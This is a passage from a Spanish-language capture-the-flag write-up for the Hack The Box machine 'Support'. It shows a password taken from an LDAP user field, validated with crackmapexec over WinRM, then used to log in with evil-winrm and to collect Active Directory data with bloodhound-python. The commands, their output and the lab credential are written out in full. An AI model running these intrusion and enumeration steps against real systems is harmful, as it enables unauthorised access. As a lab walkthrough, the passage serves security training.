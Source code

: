 En la entrada correspondiente al usuario `support`, dentro del campo `info`, se encuentra una cadena con el formato de una posible contraseña.

Verifico su validez como credencial a través del servicio WinRM.

```terminal
/home/kali/Documents/htb/machines/support:-$ crackmapexec winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

Y siendo el resultado positivo, accedo a la máquina mediante evil-winrm.

```terminal
/home/kali/Documents/htb/machines/support:-$ evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'

*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support

*Evil-WinRM* PS C:\Users\support> type Desktop/user.txt
```

---
## Privilege Escalation

Utilizo bloodhound-python para recolectar información.

```terminal
/home/kali/Documents/htb/machines/support:-$ bloodhound-python -u support -p Ironside47pleasure40Watchful -ns 10.10.11.174 --zip -c All -d support.htb
```

![](assets/img/htb-writeup-support/support4_1.png)

Levanto la interfaz de BloodHound para analizar los resultados.

